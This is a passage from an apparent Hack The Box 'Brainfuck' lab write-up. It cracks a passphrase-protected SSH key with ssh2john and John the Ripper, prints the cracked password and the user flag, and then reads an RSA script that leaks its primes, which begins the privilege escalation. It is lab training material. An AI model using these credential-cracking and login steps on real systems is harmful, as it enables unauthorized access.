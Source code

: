 we know the contents of "id_rsa" are locked. Let's try ssh2john script to bypass the password of this file. And then use John the rippple to crack it.

```bash
python /usr/share/john/ssh2john.py id_rsa > pass.txt
john pass.txt --wordlist=/home/kali/Documents/rockyou.txt
john --show pass.txt
```

![[Brainfuck-21.png]]

yes, we find the password is:

```bash
3poulakia!
```

now, let's use ssh to login with the password again:

```bash
ssh -i id_rsa orestis@10.10.10.17
# yes, we are in.
whoami
hostname
ls
cat user.txt
# Flag
2c11cfbc5b959f73ac15a3310bd097c9
```

![[Brainfuck-22.png]]

Cool! we get the user flag!
# Privilege Escalation
## Privesc attack on Cipher attack

Now let's check the file of linux system:

```bash
ls
cat encrypt.sage
```

```txt
nbits = 1024

password = open("/root/root.txt").read().strip()
enc_pass = open("output.txt","w")
debug = open("debug.txt","w")
m = Integer(int(password.encode('hex'),16))

p = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
n = p*q
phi = (p-1)*(q-1)
e = ZZ.random_element(phi)
while gcd(e, phi) != 1:
    e = ZZ.random_element(phi)

c = pow(m, e, n)
enc_pass.write('Encrypted Password: '+str(c)+'\n')
debug.write(str(p)+'\n')
debug.write(str(q)+'\n')
debug.write(str(e)+'\n')
```
